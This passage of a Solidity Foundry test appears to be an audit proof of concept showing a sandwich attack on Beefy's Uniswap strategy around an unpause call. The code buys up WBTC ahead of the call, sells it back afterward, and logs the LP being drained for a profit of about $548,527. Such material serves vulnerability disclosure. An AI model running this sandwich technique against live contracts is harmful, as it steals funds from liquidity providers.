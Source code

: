 ```solidity
        (uint256 beefyBeforeWBTCBal, uint256 beefyBeforeUSDCBal) = strategy.balances();

        // record beefy WBTC & USDC amounts before attack
        console.log("%s : %d", "LP WBTC Before Attack", beefyBeforeWBTCBal); // 0
        console.log("%s : %d", "LP USDC Before Attack", beefyBeforeUSDCBal); // 599999999999
        console.log();

        // owner decides to unpause contract
        //
        // attacker front-runs owner call to `unpause` using
        // a large amount of USDC to buy all the WBTC. This:
        // massively pushes up the price of WBTC
        uint256 ATTACKER_USDC = 100000000e6;
        trade(attacker, true, false, ATTACKER_USDC);

        // owner calls `StrategyPassiveManagerUniswap::unpause`
        // This is the transaction that the attacker sandwiches. The reason is that
        // `unpause` makes Beefy change its LP position. This will
        // cause Beefy to deploy its USDC at the now much higher price range
        strategy.unpause();

        // attacker back-runs the sandwiched transaction to sell their WBTC
        // to Beefy who has deployed their USDC at the inflated price range,
        // and also sells the rest of their WBTC position to the remaining LPs
        // unwinding the front-run transaction
        //
        // Attacker has forced Beefy to buy WBTC "high"
        trade(attacker, false, true, IERC20(token0).balanceOf(attacker));

        // record beefy WBTC & USDC amounts after attack
        (uint256 beefyAfterWBTCBal, uint256 beefyAfterUSDCBal) = strategy.balances();

        // beefy has been almost completely drained of USDC
        console.log("%s  : %d", "LP WBTC After Attack", beefyAfterWBTCBal); // 0
        console.log("%s  : %d", "LP USDC After Attack", beefyAfterUSDCBal); // 126790
        console.log();

        uint256 attackerUsdcBal = IERC20(token1).balanceOf(attacker);
        console.log("%s  : %d", "Attacker USDC profit", attackerUsdcBal-ATTACKER_USDC);
        // attacker profit = $548,527 USDC
    }

    // handlers
    function deposit(address depositor, bool dealTokens, uint256 token0Amount, uint256 token1Amount) public {
        vm.startPrank(depositor);

        if(dealTokens) {
            deal(address(token0), depositor, token0Amount);
            deal(address(token1), depositor, token1Amount);
        }

        IERC20(token0).approve(address(vault), token0Amount);
        IERC20(token1).approve(address(vault), token1Amount);

        uint256 _shares = vault.previewDeposit(token0Amount, token1Amount);

        vault.depositAll(_shares);

        vm.stopPrank();
    }

    function trade(address trader, bool dealTokens, bool tokenInd, uint256 tokenAmount) public {
```